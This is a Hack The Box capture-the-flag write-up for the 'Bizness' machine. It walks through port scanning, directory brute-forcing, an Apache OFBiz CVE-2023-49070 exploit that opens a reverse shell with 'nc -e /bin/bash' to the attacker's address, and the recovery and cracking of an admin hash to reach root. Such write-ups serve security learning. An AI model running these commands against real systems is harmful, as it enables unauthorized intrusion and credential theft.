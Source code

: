 ```yaml
---
title:  HTB - Bizness
date: 2024-08-13 12:17:34 -0400
categories: [hackthebox , Bizness]
tags: [hackthebox, Apache, OFBiz,dirsearch,nmap,cracking,enumeration,hashcat,htb-bizness,ctf,CVE-2023-49070,linux]
image:
  path: /assets/img/post/bizness-card.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Hack the Box - Bizness.
---
```


## Box Info

| Name                  | Bizness          | 
| :-------------------- | ---------------: |
| Release Date          | 06 Jan, 2024     |
| OS                    | Linux            |
| Rated Difficulty      | Easy             |

## Enumeration

```bash
nmap -p- --min-rate 5000 -n -sS -vvv -Pn 10.10.11.252 -oG allports
nmap -sCV -p 22,80,443,40117 10.10.11.252 -oN targeted
```

![Image](/assets/img/post/bizness1.png)

## Add the domain to /etc/hosts 

```bash
echo "10.10.11.252 bizness.htb | sudo tee -a /etc/hosts/
```
![Image](/assets/img/post/bizness2.png)

## Brute Force Directory

```bash
dirsearch -u http://bizness.htb/
```
![Image](/assets/img/post/bizness3.png)

## OFBiz

The website is using a technology called `OFBiz` with version `18.12`, the current version is out date.

![Image](/assets/img/post/bizness4.png)

## Apache OFBiz 18.12 CVE-2023-49070

![Image](/assets/img/post/Bizness5.png)

[***Apache-OFBiz-Authentication-Bypass***](https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass)

We used the exploit to authenticate ourselves.

```bash
python3 exploit.py --url  https://bizness.htb:443 --cmd 'nc -e /bin/bash 10.10.14.16 7777'
```

```bash
nc -lvnp 7777
```

![Image](/assets/img/post/bizness6.png)

## Enumeration linux

Before launching this search, I found a location where the OFBiz folder was located and performed searches that contain admin.
I searched recursively using grep, using options like -Rail, and to specify the word I used -e.

```shell
grep -Rail -e 'admin$' /top/ofbiz/runtime/data/derby/ofbiz/seg0
```

![Image](/assets/img/post/bizness7.png)

We came across a lot of data, so we have to go through each one by one.

We find a user and the hash

![Image](/assets/img/post/bizness8.png)

## Cracking Hash

We will use the Go hash matcher script to crack the password.

[**Go-Hash-Matcher**](https://github.com/IamLucif3r/Go-Hash-Matcher?source=post_page-----68713a41f98b--------------------------------)

![Image](/assets/img/post/bizness9.png)

Once we have the password, we log in at the `root` 

![Image](/assets/img/post/bizness10.png)